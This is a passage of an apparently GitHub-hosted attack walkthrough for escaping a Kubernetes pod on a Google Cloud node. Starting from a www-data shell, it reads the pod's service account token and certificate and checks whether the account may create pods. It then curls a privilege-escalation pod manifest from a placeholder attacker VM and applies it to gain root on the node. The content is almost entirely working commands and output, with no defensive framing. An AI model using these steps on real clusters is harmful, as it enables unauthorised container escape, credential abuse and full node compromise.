 You have a shell and are the `www-data` user.

## Escaping the pod and get a shell on the node (google compute instance)

**Get the `kubectl` binary**

```
export PATH=/tmp:$PATH; cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.24.12/bin/linux/amd64/kubectl; chmod 555 kubectl
```

**Find out the node IP via the `/etc/resolv.conf`**
```bash
cat /etc/resolv.conf
```
```
search default.svc.cluster.local svc.cluster.local cluster.local us-central1-c.c.<username>-development-3.internal c.<username>-development-3.internal google.internal
nameserver 10.228.0.10 #                 <----This is the line we need
options ndots:5
```

The local node for the nameserver `10.228.0.10` is always the `x.x.x.1` address, so in that case `10.228.0.1`

---

### Enumerate Privileges of the service account running the container

**Now you can query the Node API if the service account on the pod has sufficient permissions to create a pod**

```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://10.228.0.1/ auth can-i create pods
```

```
yes
```

### Deploy a pod that will get you a `root` account on the node

**Download the `pod-esc.yaml` from the attacker VM**
```bash
curl -vk http://<attacker_vm_public_ip>:8001/pod-esc.yaml -o /tmp/pod-esc.yaml
```

**Create the pod on the cluster**
```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://10.228.0.1/  apply -f /tmp/pod-esc.yaml
```
```
pod/priv-and-hostpid-exec-pod created
```
